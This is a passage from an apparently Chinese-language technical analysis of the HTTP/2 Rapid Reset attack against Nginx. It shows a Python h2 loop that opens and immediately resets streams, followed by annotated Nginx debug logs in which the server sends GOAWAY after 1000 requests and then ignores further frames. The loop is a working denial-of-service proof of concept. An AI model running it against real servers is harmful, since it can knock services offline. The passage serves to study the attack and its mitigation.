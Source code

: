 ```
    (':method', 'GET'),
    (':path', '/'),
    (':authority', SERVER_NAME),
]

while True:
    stream_id = c.get_next_available_stream_id()
    print(stream_id)
    c.send_headers(stream_id, headers, end_stream=True)
    s.sendall(c.data_to_send())
    c.reset_stream(stream_id)
    s.sendall(c.data_to_send())

# tell the server we are closing the h2 connection
c.close_connection()
s.sendall(c.data_to_send())

# close the socket
s.close()

```

从 Nginx 的调试日志我们看到，在收到第 1000 个请求（sid 为 1999）时，Nginx 就发送了 GOAWAY 帧，之后即使该 TCP 连接上再收到 HTTP/2 HEADERS 帧和 RST_STREAM 帧，这些帧都被忽略：

```
// 接收到 HEADERS 帧
  107347 2023/10/16 15:26:48 [debug] 10#0: *5 http2 HEADERS frame sid:1999 depends on 0 excl:0 weight:16
  107348 2023/10/16 15:26:48 [debug] 10#0: *5 posix_memalign: 00007FCCB384E400:1024 @16
  107349 2023/10/16 15:26:48 [debug] 10#0: *5 posix_memalign: 00007FCCB383D000:4096 @16
  107350 2023/10/16 15:26:48 [debug] 10#0: *5 posix_memalign: 00007FCCB383B000:4096 @16

  // 发送 GOAWAY 帧
  107352 2023/10/16 15:26:48 [debug] 10#0: *5 http2 send GOAWAY frame: last sid 1999, error 0
  ......

  // 接收到 RST_STREAM 帧，当前请求直接结束
  107426 2023/10/16 15:26:48 [debug] 10#0: *5 http2 RST_STREAM frame, sid:1999 status:0
  107427 2023/10/16 15:26:48 [info] 10#0: *5 client terminated stream 1999 with status 0 while connecting to upstream, client: 127.0.0.1, server: _, r
  107428 2023/10/16 15:26:48 [debug] 10#0: *5 http run request: "/?"
  107429 2023/10/16 15:26:48 [debug] 10#0: *5 http upstream check client, write event:0, "/"
  107430 2023/10/16 15:26:48 [debug] 10#0: *5 finalize http upstream request: 499
  107431 2023/10/16 15:26:48 [debug] 10#0: *5 finalize http proxy request
  107432 2023/10/16 15:26:48 [debug] 10#0: *5 free keepalive peer
  107433 2023/10/16 15:26:48 [debug] 10#0: *5 free rr peer 1 0
  107434 2023/10/16 15:26:48 [debug] 10#0: *5 close http upstream connection: 13
  107435 2023/10/16 15:26:48 [debug] 10#0: *5 free: 00007FCCB384AA80, unused: 48
  107436 2023/10/16 15:26:48 [debug] 10#0: *5 event timer del: 13: 1634765351
  107437 2023/10/16 15:26:48 [debug] 10#0: *5 reusable connection: 0
  107438 2023/10/16 15:26:48 [debug] 10#0: *5 http finalize request: 499, "/?" a:1, c:1
  107439 2023/10/16 15:26:48 [debug] 10#0: *5 http terminate request count:1
  107440 2023/10/16 15:26:48 [debug] 10#0: *5 http terminate cleanup count:1 blk:0
  ......

  // 后续再收到 HEADERS 帧和 RST_STREAM 帧，都会被忽略
  107453 2023/10/16 15:26:48 [debug] 10#0: *5 http2 frame type:1 f:5 l:4 sid:2001
  107454 2023/10/16 15:26:48 [debug] 10#0: *5 skipping http2 HEADERS frame
  107455 2023/10/16 15:26:48 [debug] 10#0: *5 http2 frame skip 4
  107456 2023/10/16 15:26:48 [debug] 10#0: *5 http2 frame complete pos:00007FCCB31846F7 end:00007FCCB3185744
  107457 2023/10/16 15:26:48 [debug] 10#0: *5 http2 frame type:3 f:0 l:4 sid:2001
  107458 2023/10/16 15:26:48 [debug] 10#0: *5 http2 RST_STREAM frame, sid:2001 status:0
```
